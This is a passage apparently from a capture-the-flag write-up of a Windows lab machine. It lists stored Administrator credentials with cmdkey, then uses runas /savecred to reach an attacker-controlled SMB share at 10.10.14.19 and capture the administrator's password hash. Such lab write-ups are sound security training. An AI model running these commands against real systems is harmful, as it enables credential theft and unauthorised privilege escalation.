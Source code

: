 ![](assets/Access_assets/Pasted%20image%2020231115201516.png)

- so we can run the command, and we can see that we do have stored Administrator

```shell
cmdkey /list
```

![](assets/Access_assets/Pasted%20image%2020231115191922.png)

- so we can use the runas command with the `/savecred` to run commands as the user using the stored credentials, so lets try to access a non-existent file in the share in our smbserver to see if we can retrieve the hash of the administrator, so we run 

```shell
runas /savecred /user:ACCESS\Administrator "\\10.10.14.19\smb\evil.exe"
```

- and in our smb server, we can see that we get the hash

![](assets/Access_assets/Pasted%20image%2020231115192515.png)
